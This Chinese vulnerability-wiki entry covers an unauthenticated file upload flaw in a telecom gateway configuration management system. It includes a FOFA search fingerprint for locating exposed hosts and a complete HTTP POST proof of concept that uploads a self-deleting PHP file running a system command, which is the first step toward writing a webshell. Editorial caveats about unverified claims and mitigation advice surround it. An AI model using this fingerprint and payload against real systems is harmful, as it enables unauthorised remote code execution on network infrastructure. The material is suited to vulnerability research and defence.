

# 电信网关配置管理系统（开发方未核） bak_manager upload_channels PHP上传执行

## 条目说明

- 对象与具体问题：电信网关配置管理系统（开发方未核）；bak_manager upload_channels PHP上传执行
- 版本、配置及部署条件：版本未知，PHP可执行目录
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 修复链接189.cn/fj_np是地区业务入口不是安全补丁公告，官方已修复缺可核来源
- 不应自动将运营商品牌视为具体软件开发方，需产品型号/发行信息
- system uname并自删仍执行/写入，结果仅图、无路径/回显文字
- 在野已知无来源，补版本/鉴权与修复

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

电信网关配置管理系统 /bak_manager/upload_channels.php 接口存在文件上传漏洞，未经身份验证远程攻击者可利用该漏洞代码执行，写入WebShell,进一步控制服务器权限。

## 影响版本

电信网关配置管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="a:link{text-decoration:none;color:orange;}"

POC/EXP：

```http
POST /bak_manager/upload_channels.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="rce.php"
Content-Type: text/plain

<?php system("uname -a");unlink(__FILE__);?>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```





## 修复方案

官方已修复该漏洞，请用户联系厂商安装补丁：http://189.cn/fj_np/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
